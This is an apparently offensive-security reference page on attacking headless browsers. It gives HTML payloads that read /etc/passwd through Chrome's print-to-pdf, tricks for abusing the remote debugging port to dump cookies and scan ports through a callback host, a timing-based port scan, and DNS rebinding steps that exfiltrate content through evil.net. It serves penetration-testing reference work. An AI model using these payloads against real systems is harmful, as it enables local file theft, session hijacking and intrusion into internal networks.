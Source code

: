 # Headless Browser

A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.

Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.


## Headless Commands

Example of headless browsers commands:

```ps1
google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
firefox --screenshot https://www.google.com
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
```


## Local File Read

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect
    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe
    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```


## Debugging Port 

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`   

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.

> [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Dump cookies: 
* Stored data: `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`
* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`
    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!NOTE]  
> The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.


## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened

**Consideration**:

* Chrome blocks by default a list of "known ports"
* Chrome blocks access to local network addresses except localhost through 0.0.0.0


### DNS Rebinding

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.

1. Chrome will make 2 DNS requests: `A` and `AAAA` records
    * `AAAA` response with valid Internet IP
    * `A` response with internal IP
2. Chrome will connect in priority to the IPv6 (evil.net)
3. Close IPv6 listener just after first response
4. Open Iframe to evil.net
5. Chrome will attempt to connect to the IPv6 but as it will fail it will fallback to the IPv4
6. From top window, inject script into iframe to exfiltrate content


## References

* [Attacking Headless Browsers - truff - 22/05/2024](#bb-discord-replay-not-available)
* [Browser based Port Scanning with JavaScript - Nikolai Tschacher - January 10, 2021](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
* [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely - wunderwuzzi - Apr 28, 2020](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
* [Node inspector/CEF debug abuse - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
* [Chrome DevTools Protocol - Documentation](https://chromedevtools.github.io/devtools-protocol/)
* [Cookies with Chromium’s Remote Debugger Port - Justin Bui - Dec 17, 2020](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
* [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger - Justin Bui - Jul 16, 2023](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
* [Tricks for Reliable Split-Second DNS Rebinding in Chrome and Safari - Daniel Thatcher - December 6, 2023](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)